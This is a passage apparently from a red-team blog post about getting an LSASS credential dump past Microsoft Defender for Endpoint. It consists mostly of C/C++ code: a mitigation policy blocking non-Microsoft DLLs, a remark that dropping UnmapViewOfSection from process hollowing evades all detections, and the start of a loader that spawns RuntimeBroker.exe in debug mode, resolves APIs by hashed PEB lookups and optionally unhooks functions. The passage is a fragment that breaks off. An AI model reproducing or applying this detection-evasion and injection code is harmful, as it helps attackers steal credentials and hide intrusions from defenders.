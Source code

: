 And finally the Process Mitigation Policy to avoid non-Microsoft loads: 

```
DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;
```

Unfortunately we are still detected.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230915191541.png)

Recently, a lot of new Process Injection techniques have arised like [DllNotificationInjection](https://github.com/ShorSec/DllNotificationInjection/tree/master) and [ThreadlessInject](https://github.com/CCob/ThreadlessInject) to avoid the execution of the last few Process Injection APIs - `ResumeThread` etc. It is possible to replace this functionality, however for Process Hollowing the main detection arises from the `UnmapViewOfSection` API. 

Removing this we get past all detections. The finaly source looks something like this:

```
int main(int argc, char* argv[])
{
	BOOL stealth = FALSE;
	if (argc == 2)
	{
		if (strcmp(argv[1], "stealth") == 0) {
			printf("[+] Stealth mode: Unhooking one function\n");
			stealth = TRUE;
		}

	}

	printf("[+] Creating new process in debug mode\n");
	PROCESS_INFORMATION process = createProcessInDebug((wchar_t*)LR"(C:\Windows\System32\RuntimeBroker.exe)");
	HANDLE hThread = process.hThread;

	HMODULE hNtdll = GetModuleFromPEB(4097367);
	HMODULE hKernel_32 = GetModuleFromPEB(109513359);
	_LdrLoadDll LdrLoadDllCustom = (_LdrLoadDll)GetAPIFromPEBModule(hNtdll, 11529801);

	size_t LdrLoadDllAddress = reinterpret_cast<size_t>(LdrLoadDllCustom);
	printf("[+] Found LdrLoadDllAddress address: 0x%p\n", LdrLoadDllAddress);
```

[+]: Shellcode located at c7160